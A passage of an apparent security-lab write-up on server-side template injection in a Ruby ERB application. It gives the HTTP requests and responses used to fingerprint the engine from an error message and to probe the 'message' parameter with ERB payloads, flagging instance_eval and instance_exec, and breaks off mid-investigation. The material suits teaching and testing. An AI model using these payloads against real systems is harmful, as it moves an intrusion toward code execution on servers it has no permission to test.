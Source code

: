since reflection yields the mat calculation rather than the string we can deduce it is **template injection** and not simple XSS

4. investigate for build, and version by yielding an error message:
```
GET /?message=<%=foobar%> HTTP/1.1
```
response:
```
<p class=is-warning>
(erb):1:in `&lt;main&gt;&apos;: undefined local variable or method `foobar&apos; for main:Object (NameError)
from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval&apos;
from /usr/lib/ruby/2.7.0/erb.rb:905:in `result&apos;
from -e:4:in `&lt;main&gt;&apos;</p>
```

***we know we are dealing with Ruby-based ERB engine.***


injection point is parameter "message"

4. investigate injection point structure and methods: 
**request**:
    GET /?message=<%=+self+%25> HTTP/1.1
response:
    HTTP/1.1 200 OK 

    <div>main</div> 

**request**:
GET /?message=<%=+self.class.name+%25> HTTP/1.1
response:
    HTTP/1.1 200 OK 

    <div>Object</div> 

**request**:
    GET /?message=<%25%3d+self.methods+%25> HTTP/1.1
response:
    <div>
    [:inspect, :to_s, :dup, :itself, :yield_self, :then, :taint, :tainted?, :untaint, :untrust, :untrusted?, :trust, :frozen?, :methods, :singleton_methods, :protected_methods, :private_methods, :public_methods, :instance_variables, :instance_variable_get, :instance_variable_set, :instance_variable_defined?, :remove_instance_variable, :instance_of?, :kind_of?, :is_a?, :tap, :class, :singleton_class, :display, :clone, :hash, :public_send, :method, :public_method, :singleton_method, :define_singleton_method, :extend, :to_enum, :enum_for, :<=>, :===, :=~, :!~, :nil?, :eql?, :respond_to?, :freeze, :object_id, :send, :__send__, :!, :==, :!=, :equal?, :__id__, :instance_eval, :instance_exec]
    </div>

**interesting:**
:instance_eval
:instance_exec




**request**:
    GET /?message=<%25%3d+self.method(:instance_exec).parameters+%25> HTTP/1.1
